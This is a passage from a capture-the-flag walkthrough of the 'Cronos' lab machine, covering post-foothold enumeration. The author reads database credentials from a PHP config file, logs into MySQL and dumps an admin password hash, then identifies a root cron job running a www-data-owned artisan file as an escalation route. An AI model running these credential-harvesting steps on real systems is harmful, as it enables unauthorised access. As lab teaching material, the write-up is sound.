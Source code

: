 
### 6. Enumerate from foothold
Database creds:
```bash
www-data@cronos:/var/www/admin$ cat config.php
cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
Logged into the database and retrieved another password/
```bash
www-data@cronos:/var/www/admin$ mysql -u admin -p
Enter password: kEjdbRigfBHUREiNSDs

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7342
Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use admin; show tables

+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
```
Next checked the crontab, it can be seen that one job is running as root and running a command through the Laravel Artisan CLI to execute scheduled tasks.  
The artisan PHP file is owned by www-data.
```bash
www-data@cronos:/home/noulis$ ls -l /var/www/laravel/artisan
```
